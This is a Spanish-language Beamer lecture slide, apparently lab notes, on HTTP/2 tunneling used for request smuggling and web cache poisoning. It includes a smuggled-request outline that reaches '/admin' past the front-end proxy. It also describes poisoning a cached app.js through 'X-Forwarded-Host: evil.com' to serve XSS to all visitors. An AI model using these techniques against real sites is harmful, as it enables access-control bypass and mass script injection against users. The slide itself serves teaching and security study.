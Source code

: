 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{Túneles HTTP/2 y Cache Poisoning (Labs 140-144)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Túneles HTTP/2 (H2 tunneling)
  \item Algunos front-ends mantienen una conexión H2 dedicada por usuario (no compartida).
  \item La petición downgraded va por un 'túnel' exclusivo $\rightarrow$ NO contamina a otros usuarios.
  \item Sin embargo, si el back-end reutiliza la conexión del túnel $\rightarrow$ sí podemos envenenar
  \item las respuestas dentro de ese túnel o saltar controles de acceso del front-end.
  \item Bypass de controles via H2 tunnel (Labs 140-142)
  \item Similar a CL.TE pero en el contexto del túnel --- el payload va en la petición H2.
  \item La petición smuggleada llega al back-end sin pasar por el WAF/proxy del front-end:
  \item \cmd{:method POST}
  \item \cmd{content-length: 0}
  \item \cmd{:path /}
  \item \cmd{GET /admin HTTP/1.1}
  \item \cmd{Host: backend-interno}
  \item $\rightarrow$ El túnel H2 lleva la petición directamente al back-end $\rightarrow$ bypass del proxy.
  \item Cache poisoning via H2 tunnel (Labs 143-144)
  \item Smugglear a través del túnel una petición a un recurso cacheable con payload XSS.
  \item El CDN almacena la respuesta envenenada $\rightarrow$ se sirve a todos los usuarios futuros.
  \item Proceso: GET /static/js/app.js smuggleado con X-Forwarded-Host: evil.com
  \item $\rightarrow$ app.js se sirve desde evil.com $\rightarrow$ XSS para todos los visitantes.
  \item Impacto masivo: una sola petición puede envenenar la caché pública indefinidamente.
  \end{itemize}
\end{frame}
\end{document}
